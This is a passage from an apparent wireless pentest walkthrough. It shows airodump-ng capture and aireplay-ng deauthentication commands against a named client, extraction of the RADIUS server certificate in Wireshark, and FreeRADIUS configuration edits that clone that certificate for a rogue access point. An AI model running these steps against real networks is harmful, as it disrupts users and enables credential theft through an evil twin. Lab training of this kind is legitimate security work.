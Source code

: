 #### Capture traffic
Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 2 -w wpa --essid 'Playtronics' --bssid FC:EC:DA:8F:2E:90 wlan0
```

#### Deauthenticate the user
```bash
sudo aireplay-ng -0 1 -a FC:EC:DA:8F:2E:90 -c 00:DC:FE:82:EF:06 wlan0
13:30:30  Waiting for beacon frame (BSSID: FC:EC:DA:8F:2E:90) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [00:DC:FE:82:EF:06] [ 0| 0 ACKs]

```
> If no certificates are captured when the client reauthenticates, deauthenticate him again
{: .prompt-warning }

#### Analyze pcap with wireshark and extract certificate

Wireshark filter for packets with certificate: ``tls.handshake.certificate`` also works for [Tshark](https://shuciran.github.io/posts/Remote-Capture/#fnref:tshark-eap)

If from wireshark we now open Extensible Authentication Protocol > Transport Layer Security. We now have to open the TLSv1 Record Layer: Handshake Protocol: Certificate (or similar, as the TLS version will vary). Once there, we will have to expand Handshake Protocol: Certificate item, then Certificates (plural). Inside Certificates, we can see one or more entries named Certificate. Each of them will be preceded by the length. For each certificate, we right click and select Export Packet Bytes to save the data into a file with a .der extension.4

![Wireshark-Certificate-Download](/assets/img/Pasted image 20230928231211.png)

Finally, we can get information about the certificate with `openssl x509 -inform der -in CERT_FILENAME -text` or we can check the validity by using ``openssl x509 -in CERT_FILENAME -noout -enddate`` where **CERT_FILENAME** is the .pem or .crt file.

#### Modify Freeradius Configuration Files

Install freeradius `sudo apt install freeradius`

##### Certificate Authority
This should be similar to the certificate that we captured on step 4)
```bash
# The folder is unreachable even with sudo, so you need to become root first
sudo -s

nano /etc/freeradius/3.0/certs/ca.cnf

...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
##### Server Configuration
We will edit the [server] fields to match our target server certificate
```bash
nano server.cnf
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
```